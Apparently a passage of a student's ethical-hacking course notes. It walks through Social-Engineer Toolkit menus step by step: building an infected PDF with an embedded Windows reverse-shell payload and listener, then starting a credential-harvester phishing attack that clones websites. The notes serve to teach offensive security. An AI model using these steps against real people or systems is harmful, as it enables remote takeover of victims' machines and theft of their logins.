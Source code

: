            ```bash
           sudo setoolkit
           ```

        2. Navigate to Infectious Media Generator:
           - Choose option `1` for "Social Engineering Attacks"
           - Choose option `3` for "Infectious Media Generator"
        3. Select Fileformat Exploit:
           - Press `1` for "Fileformat exploits"
        4. Enter Reverse Connection IP:

           ```
           Enter the IP address for the reverse connection: <your_IP_address>

           ```

        5. Select Adobe PDF Embedded EXE Exploit:

           ```
           Choose the exploit: 1 (Adobe PDF Embedded EXE)

           ```

        6. Use Own PDF or Template:

           ```
           Use your own PDF or template: <choose>

           ```

        7. Select Payload:

           ```
           Choose the payload: 1 (Windows/shell/reverse_tcp)

           ```

        8. Enter Payload Listener IP and Port:

           ```
           Enter IP address for the payload listener: <your_IP_address>
           Enter port for the listener: <your_port_number>

           ```

        9. Enable Listener:

           ```
           Enable the listener? (yes/no): yes

           ```
- Phishing attack
  - SET
    - Credential Harvester Attack
      1. **Select Credential Harvester Attack**:

         ![Screenshot 2024-06-13 at 10.14.21.png](images/university-notes/EH/Screenshot_2024-06-13_at_10.14.21.png)

         - From the website attack vectors menu, choose "Credential Harvester Attack."
         - Options: Use predefined templates, clone a site of your choice, or import your own template.
